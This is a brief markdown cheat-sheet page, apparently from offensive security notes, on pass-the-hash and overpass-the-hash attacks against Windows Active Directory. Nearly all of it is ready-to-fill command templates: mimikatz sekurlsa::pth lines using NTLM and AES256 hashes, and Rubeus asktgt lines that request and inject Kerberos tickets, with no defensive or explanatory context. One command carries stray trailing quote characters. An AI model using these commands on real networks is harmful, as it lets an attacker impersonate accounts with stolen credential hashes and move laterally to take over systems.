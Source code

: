 # Pass The Hash

### OverPass the Hash

#### With mimikatz

[#overpass-the-hash](../../exploitation-abuse/mimi-tools.md#overpass-the-hash "mention")

```powershell
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe
```

```
sekurlsa::pth /domain:<MACHINE> /user:Administrator /ntlm:<HASH> /run:powershell.exe"'
```

#### With Rubeus

{% code overflow="wrap" %}
```cmd
Rubeus.exe asktgt /user:<USER> /aes256:<HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

```powershell
./Rubeus.exe asktgt /user:administrator /rc4:<nt hash> /ptt
```

